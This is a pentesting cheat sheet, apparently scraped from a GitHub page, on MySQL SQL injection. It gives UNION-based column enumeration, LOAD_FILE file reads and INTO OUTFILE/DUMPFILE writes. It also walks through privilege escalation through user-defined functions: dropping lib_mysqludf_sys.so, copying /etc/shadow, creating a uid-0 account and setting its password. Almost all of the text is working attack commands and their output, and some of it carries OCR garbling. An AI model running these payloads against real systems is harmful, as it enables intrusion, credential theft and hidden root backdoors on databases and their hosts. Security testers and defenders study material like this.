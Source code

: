 #### Enumerate number of columns/fields
```
...UNION SELECT 1;--
...UNION SELECT 1,2;--
...UNION SELECT 1,2,3;--
```

L#### oad file by injecting into the vulnerable field - encode string if necessary
```
…UNION ALL SELECT NULL,LOAD_FILE(‘<user-readable-file>’),NULL,NULL;-- …UNION ALL SELECT NULL,LOAD_FILE(‘<user-readable-file>’),NULL,NULL INTO OUTFILE ‘<writeable-path-or-web-directorygt;’;--
```

#### Dump/Write to file
```
(see encode text/shell to hex, base64)
...SELECT * FROM mytable INTO DUMPFILE ‘<writeable-path-or-web-directorygt;’; —
...SELECT * FROM mytable INTO OUTFILE ‘<writeable-path-or-web-directorygt;’; —
```

http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet

http://ferruh.mavituna.com/sql-injection-cheatsheet-oku

#### MySQL <5.0 User Defined Functions
command execution and privilege escalation with mysql running as root/SYSTEM
```
mysql> use mysql;
mysql> create table <table-name>(line blob);
Query OK, 0 rows affected (0.00 sec)
mysql> insert into <table-name> values(load_file('<path-to-udf.so-file>');
Query OK, 1 rows affected (0.00 sec)
mysql> select * from <table-name> into dumpfile '/usr/lib/lib_mysqludf_sys.so';
Query OK, 1 rows affected (0.00 sec)
mysql> create function <name_of_new_function> returns int soname 'lib_mysqludf_sys.so';
```
Example command execution with the new function:
```
mysql> set @status := <name_of_new_function>('cat /etc/shadow > /tmp/shadow');
Query OK, 0 rows affected (0.06 sec)
mysql> set @status := <name_of_new_function>('/usr/sbin/useradd -o -u0 -g0 -d /dev/null -s /bin/bash &new-username>');
Query OK, 0 rows affected (0.06 sec)
mysql> set @status := <name_of_new_function>('echo <new-username>:<chosen-password> | /usr/sbin/chpasswd');
Query OK, 0 rows affected (0.06 sec)
```
or
```
mysql> select <name_of_new_function>('/usr/sbin/useradd -o -u0 -g0 -d /dev/null -s /bin/bash &new-username>');
+----------------------------------------------------------------------------------------------------------------------------------------------------------+
| <name_of_new_function>('/usr/sbin/useradd -o -u0 -g0 -d /dev/null -s /bin/bash &new-username>'); |+----------------------------------------------------------------------------------------------------------------------------------------------------------+
| 4294967296                                                                                                                                       | +----------------------------------------------------------------------------------------------------------------------------------------------------------+
1 row in set (1.70 sec)
```
```
http://0x80.org/blog/?p=298
http://blog.encription.co.uk/privilege-escalation-using-mysql-user-defined-functions/
http://www.0xdeadbeef.info/exploits/raptor_udf.c
http://bernardodamele.blogspot.com.au/2009/01/command-execution-with-mysql-udf.html
```